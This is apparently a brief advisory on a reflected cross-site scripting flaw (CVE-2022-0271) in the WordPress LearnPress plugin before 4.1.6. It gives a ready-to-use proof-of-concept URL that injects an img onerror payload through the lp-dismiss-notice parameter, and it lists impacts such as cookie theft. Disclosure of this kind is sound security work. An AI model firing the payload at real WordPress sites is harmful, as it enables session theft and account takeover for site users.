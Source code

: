 ## Cross-Site Scripting
 
 WordPress LearnPress plugin before 4.1.6 contains a cross-site scripting vulnerability. It does not sanitize and escape the lp-dismiss-notice before outputting it back via the lp_background_single_email AJAX action.
 


## Steps To Reproduce

 Go to this  URL  
 ```
 https://$DOMAIN/wp-admin/admin-ajax.php?action=lp_background_single_email&lp-dismiss-notice=xxx<img%20src=x%20onerror=alert(document.domain)>
 ```
 

## Impact

 -  Perform any action within the application that the user can perform.
-   View any information that the user is able to view.
-   Modify any information that the user is able to modify.
-   Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user..
- Steal user's cookie. 

 
### Supporting Material/References
* https://nvd.nist.gov/vuln/detail/cve-2022-0271
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0271
* https://nvd.nist.gov/vuln/detail/cve-2022-0271
